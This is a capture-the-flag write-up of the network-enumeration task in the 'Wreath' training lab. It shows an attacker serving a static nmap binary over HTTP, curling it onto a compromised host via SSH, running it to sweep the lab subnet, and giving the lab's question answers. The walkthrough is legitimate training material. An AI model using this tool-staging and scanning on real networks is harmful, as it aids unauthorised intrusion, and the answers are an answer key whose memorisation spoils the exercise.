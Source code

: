 **Task 17: Enumeration**

This task is to check wether we learned anything from our previous tasks or not..

Lets begin with the setup, download the `static binary file`, and rename it to your user name such as `nmap-trial2222`

![Screenshot_2023-08-06_02_12_20](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/47a3fb7a-9c91-423a-a167-6e076b928af6)

After doing this lets move forward with the attack

First we will start the python server using the following command

    sudo python3 -m http.server 80

After switch to your pord server which have the access from the **task6** the command for that will be make sure to be in **root terminal**
 
    ssh 10.200.57.200 -i id_rsa 

Now type the curl command

      curl <your-ip>/nmap-trial2222 -o ./nmap-per

If you want the file to be stored then remove the /tmp/ from the command line cause the moment you switch of the pc /tmp files will get clear so there's a chance that you
might loose this file...

![Screenshot_2023-08-06_02_51_07](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/ffa2c93d-6557-469b-a452-9661d1ec6713)

make sure to give the file `chmod +x` perm to make it executable

Now lets scan and save the result, so that we can see them and answers the questions...

    ./nmap -sn 10.200.57.0/24 -oN scan-resul

-sn : switch is used to tell Nmap not to scan any port and instead just determine which hosts are alive.

-oN : store the output in normal form.

The output will be something like this..

![scanres](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/6d7e57b5-1bc1-440e-9263-cdebee21eb6f)

Lets move ahead and answer the questions...

**Q. Excluding the out of scope hosts, and the current host (.200), how many hosts were discovered active on the network?**

Ans: 2

**Q.In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)**

Ans: 100,150

**Q. Scan the hosts -- which one does not return a status of "filtered" for every port (submit the last octet only)?**


![Screenshot_2023-08-06_03_20_46](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/3a10c8ae-9a40-4477-821e-aba3d870bd52)

So the answer should be 150


**Q. Let's assume that the other host is inaccessible from our current position in the network.
Which TCP ports (in ascending order, comma separated) below port 15000, are open on the remaining target?**

Ans: 80,3389,5985 in my case the ports were this your scan might get different results..

**Q.Assuming that the service guesses made by Nmap are accurate, which of the found services is more likely to contain an exploitable vulnerability?**

Ans: http
